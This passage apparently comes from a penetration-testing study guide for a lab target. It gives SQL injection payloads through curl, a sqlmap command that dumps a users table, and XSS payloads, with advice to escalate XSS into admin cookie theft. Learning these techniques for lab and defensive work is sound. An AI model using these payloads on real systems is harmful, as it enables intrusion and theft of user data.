 ### 6.1 Quick manual tests

```bash
# Test for error-based
curl -s "http://10.10.10.56/item.php?id=1'"

# UNION column count
curl -s "http://10.10.10.56/item.php?id=1 ORDER BY 3-- -"

# UNION injection
curl -s "http://10.10.10.56/item.php?id=1 UNION SELECT 1,2,3-- -"

# Time-based (MySQL)
time curl -s "http://10.10.10.56/item.php?id=1 AND SLEEP(5)-- -"
```

### 6.2 Automated with sqlmap (time-box!)

```bash
sqlmap -u "http://10.10.10.56/item.php?id=1" \
  --batch --level 2 --risk 2 --time-sec 5 \
  --random-agent --dump -T users --stop 1
```

⚠️ **Mistakes & fixes:**

* ❌ Running **sqlmap for hours** with default options.
  ✅ Fix: My command sets `--level 2`, `--risk 2`, `--time-sec 5`, and `--stop 1` to keep it fast and timeboxed.
* ❌ Forgetting to check manually before automation.
  ✅ Fix: Manual quick tests included first.

---

## 7) Cross-Site Scripting (XSS)

**What it is:**
XSS = injecting JavaScript into pages that gets executed in the victim’s browser.

**Goal:**

* Steal cookies (e.g., admin sessions).
* Trigger admin-only actions.

**Test:**

```html
<img src=x onerror=alert(1)>
<script>alert(document.domain)</script>
```

⚠️ **Mistake:** Calling XSS “low value” and ignoring it.
✅ Fix: Notes remind you to escalate XSS to **cookie theft / CSRF → admin panel compromise**.

---
